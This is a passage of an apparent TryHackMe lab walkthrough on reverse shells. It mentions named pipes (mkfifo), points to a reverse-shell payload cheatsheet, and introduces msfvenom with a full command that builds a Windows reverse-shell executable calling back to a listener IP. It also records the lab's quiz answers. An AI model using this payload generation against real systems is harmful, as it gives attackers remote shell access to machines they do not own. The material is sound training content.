 ![image](https://github.com/AChen1719/tryhackme-walkthrough/assets/99749834/af58fd39-90a6-4ba9-84fd-facf0e307f93)

For other common reverse shell payloads, PayloadsAllTheThings is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages. It is well worth reading through the linked page to see what's available.

# Answer the questions below
What command can be used to create a named pipe in Linux? `mkfifo`

Look through the linked Payloads all the Things Reverse Shell Cheatsheet and familiarise yourself with the languages available. `No answer needed`

## Task 9 msfvenom
Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`). It's this latter function that we will be making use of in this room. There is more to teach about msfvenom than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.

The standard syntax for msfvenom is as follows:

`msfvenom -p <PAYLOAD> <OPTIONS>`

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

![image](https://github.com/AChen1719/tryhackme-walkthrough/assets/99749834/59701d01-5eb0-4cea-82ea-cbc55c82de73)

Here we are using a payload and four options:
    • -f <format>
        ◦ Specifies the output format. In this case that is an executable (exe)
    • -o <file>
        ◦ The output location and filename for the generated payload.
    • LHOST=<IP>
       ◦ Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN.
    • LPORT=<port>
       ◦ The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

## Staged vs Stageless

Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.
 
